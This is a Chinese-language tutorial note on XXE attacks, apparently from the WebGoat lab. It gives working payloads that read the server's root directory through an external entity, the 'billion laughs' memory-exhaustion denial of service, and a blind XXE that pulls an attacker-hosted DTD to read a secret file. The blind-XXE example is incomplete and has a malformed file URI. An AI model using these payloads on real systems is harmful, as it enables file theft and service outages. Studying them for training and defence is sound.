 # XXE

XML实体允许定义标记，这些标记将在解析XML文档时被内容替换。一般来说，实体有三种类型:

1. 内部实体
2. 外部实体
3. 参数实体

实体必须在文档类型定义(DTD)中创建，让我们从一个例子开始

```
<?xml version="1.0" standalone="yes" ?>
<!DOCTYPE blog [
  <!ELEMENT author (#PCDATA)>
  <!ENTITY js "Jo Smith">
]>
<blog>
    <author>&js;</author>
</blog>
```

会被解析为

```
<blog>
    <author>Jo Smith</author>
</blog>
```

### 信息泄露示例

```
<?xml version="1.0" ?>
<!DOCTYPE user [<!ENTITY root SYSTEM "file:///"> ]>
<comment>
    <text>&root;</text>
</comment>
```
可以将根目录`/`下的内容读取出来

### 拒绝服务示例

```
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```
使用相同的XXE攻击，可以对服务器进行DOS服务攻击。当XML解析器加载这个文档时，它看到包含根元素lolz，其中包含文本&lol9;。然而，&lol9;是一个已定义的实体，它可以扩展为包含十个&lol8;的字符串。每个&lol8;字符串都是一个已定义的实体，可以扩展为十个&lol7;字符串，以此类推。在处理所有实体扩展之后，这个小块< 1 KB的XML实际上将占用几乎3 GB的内存。

### Blind XXE

```
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY ping SYSTEM 'file://home/webgoat/.webgoat-8.2.2//XXE/secret.txt'>
```
在服务器中托管该DTD文件，并拦截携带XML的请求，修改请求内容，使其远程调用文件。

```
<?xml version="1.0"?>
<comment>
    <text>cute</text>
</comment>
```

修改为

```
<?xml version="1.0"?>
<!DOCTYPE test [<!ENTITY % command SYSTEM "http://127.0.0.1:9090/files/sonder/attack.dtd">
%command;
]>
<comment>
    <text>cute &ping;</text>
</comment>
```
	